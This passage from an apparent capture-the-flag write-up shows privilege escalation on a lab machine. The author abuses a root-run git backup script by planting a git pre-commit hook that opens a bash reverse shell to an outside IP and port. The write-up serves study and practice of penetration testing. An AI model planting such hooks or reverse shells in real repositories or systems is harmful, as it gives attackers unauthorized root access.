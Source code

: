 It appeared that some script was committing any changes to the home folder in the repository. To find the script, I used `watch` and `ps` to try and see the running processes. 

```
dev01@opensource:~$ touch test2
dev01@opensource:~$ watch -n 0.5 -d "ps aux | grep git"
```

I waited until the minute changed and saw the script doing the backup run. 

![ps](/assets/images/2022/10/OpenSource/ps.png "ps")

The script `/usr/local/bin/git-sync` was being run by root. So if I could get it to run some custom code, I would be able to get root on the machine. 

```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

The script did not do much. It checked for uncommitted changes in the repository. If it finds any, it would add them to them and commit them before pushing the changes. I did not have permission to modify the script. And there was no writable folder on the path that I could have used to replace which git executable was executed. 

In git, it's possible to use [hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) to run some code when an action happens. I used the pre-commit hook to open a reverse shell whenever the script tried to commit changes to the repository.


```bash
dev01@opensource:~$ cat  .git/hooks/pre-commit
#!/bin/sh

bash -c 'bash -i >& /dev/tcp/10.10.14.143/4444 0>&1'
```
